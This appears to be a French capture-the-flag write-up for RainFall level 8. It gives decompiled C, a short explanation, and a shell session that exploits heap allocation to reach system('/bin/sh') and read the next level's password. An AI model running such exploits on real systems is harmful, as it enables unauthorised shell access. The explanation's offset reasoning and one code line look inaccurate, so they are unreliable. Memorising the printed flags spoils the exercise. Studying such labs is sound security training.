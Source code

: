## Level 8

pass : `5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9`

## Sources :

```c
#include <stdio.h>
#include <string.h>

char	*auth = NULL;  // 0x08049aac
char	*service = NULL;  // 0x08049ab0

int	main() {  // 0x08048564
  char	buf[128];  // esp+0x20 / size = 0xa0 - 0x20
  
  while (1) {
    printf("%p, %p \n", auth, service);
    if (fgets(buf, 128, stdin) == 0)
      break;
    if (memcmp(buf, "auth ", 5) == 0) {
      auth = malloc(4);
      *auth = '\0';
      if (strlen(&buf[5]) <= 30) {
        strcpy(auth, &buf[5]);
      }
    }
    if (memcmp(buf, "reset", 5) == 0) {
      free(auth);
    }
    if (memcmp(buf, "service", 7) == 0) {
      service = strdup(&buf[7]);
    }
    if (memcmp(buf, "login") == 0) {
      if (auth[32] == '\0') {
        system("/bin/sh");
      } else {
        fwrite("Password:\n", 1, 10, stdout);
      }
    }
  }
	return (0);
}
```

## Recherche :

Pour que l'on lance `system("/bin/sh");`, il faut que `auth[32] == '\0'`, mais comme on ne peut écrire que 30 caractères sur `auth`, on va passer par le fait que les deux variables `auth` et `service` sont contingentes, `0x08049ab0 - 0x08049aac = 4`, donc `auth[32] == service[28]`. On va donc mettre dans `service` une chaine de 28 caractères, qui sera directement complété par `\0` avec `strdup()`.
Enfin, un coup de `login` et on est bon.

## Exploit

```shell
level8@RainFall:~$ ./level8 
(nil), (nil) 
auth 
0x804a008, (nil) 
service 0123456789012345678901234567
0x804a008, 0x804a018 
login
$ whoami
level9
$ cd ../level9
$ cat .pass
c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a
```
